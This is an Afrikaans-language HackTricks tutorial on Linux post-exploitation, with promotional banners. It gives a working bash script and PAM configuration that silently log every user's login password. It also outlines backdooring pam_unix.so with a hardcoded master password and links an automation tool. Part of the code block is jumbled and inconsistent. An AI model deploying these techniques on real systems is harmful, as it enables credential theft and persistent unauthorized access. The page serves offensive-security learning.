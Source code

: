 # Linux Na-Exploitation

{% hint style="success" %}
Leer & oefen AWS Hack:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

## Sniffing Aanteken Wagwoorde met PAM

Laat ons 'n PAM-module konfigureer om elke wagwoord wat elke gebruiker gebruik om in te teken, te registreer. As jy nie weet wat PAM is nie, kyk:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Vir verdere besonderhede, kyk na die [oorspronklike pos](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Dit is net 'n opsomming:

**Tegniek Oorsig:**
Pluggable Authentication Modules (PAM) bied buigsaamheid in die bestuur van outentifikasie op Unix-gebaseerde stelsels. Hulle kan die sekuriteit verbeter deur die aanpassing van die aanmeldingsproses, maar hulle kan ook risiko's inhou as dit verkeerd gebruik word. Hierdie opsomming skets 'n tegniek om aanmeldingskredensiale met PAM vas te vang, tesame met maatreëls vir verligting.

**Vaslegging van Kredensiale:**
- 'n bash-skrip met die naam `toomanysecrets.sh` word geskep om aanmeldingspogings te registreer, waar die datum, gebruikersnaam (`$PAM_USER`), wagwoord (via stdin), en afgeleë gasheer IP (`$PAM_RHOST`) na `/var/log/toomanysecrets.log` vasgelê word.
- Die skrip word uitvoerbaar gemaak en geïntegreer in die PAM-konfigurasie (`common-auth`) deur die `pam_exec.so`-module te gebruik met opsies om stil te hardloop en die outentiseringsleutel aan die skrip bloot te stel.
- Die benadering demonstreer hoe 'n gekompromitteerde Linux-gasheer uitgebuit kan word om kredensiale stiekem te registreer.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**Vir verdere besonderhede, kyk na die [oorspronklike pos](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Hierdie is net 'n opsomming:

Die Pluggable Authentication Module (PAM) is 'n stelsel wat onder Linux gebruik word vir gebruikersverifikasie. Dit werk op drie hoofkonsepte: **gebruikersnaam**, **wagwoord**, en **diens**. Konfigurasie lêers vir elke diens is geleë in die `/etc/pam.d/` gids, waar gedeelde biblioteke verifikasie hanteer.

**Doel**: Wysig PAM om verifikasie met 'n spesifieke wagwoord moontlik te maak, deur die werklike gebruikerswagwoord te omseil. Dit fokus veral op die `pam_unix.so` gedeelde biblioteek wat deur die `common-auth` lêer gebruik word, wat deur byna alle dienste vir wagwoordverifikasie ingesluit word.

### Stappe vir die Wysiging van `pam_unix.so`:

1. **Vind die Verifikasie Direktief** in die `common-auth` lêer:
- Die lyn verantwoordelik vir die kontrole van 'n gebruiker se wagwoord roep `pam_unix.so` aan.
2. **Wysig die Bronkode**:
- Voeg 'n kondisionele verklaring by in die `pam_unix_auth.c` bronlêer wat toegang verleen as 'n voorafbepaalde wagwoord gebruik word, anders gaan dit voort met die normale verifikasieproses.
3. **Herstel en Vervang** die gewysigde `pam_unix.so` biblioteek in die toepaslike gids.
4. **Toetsing**:
- Toegang word verleen oor verskeie dienste (aanmelding, ssh, sudo, su, skermspaarder) met die voorafbepaalde wagwoord, terwyl normale verifikasieprosesse onveranderd bly.

{% hint style="info" %}
Jy kan hierdie proses outomatiseer met [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hack: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hack: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PRs in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
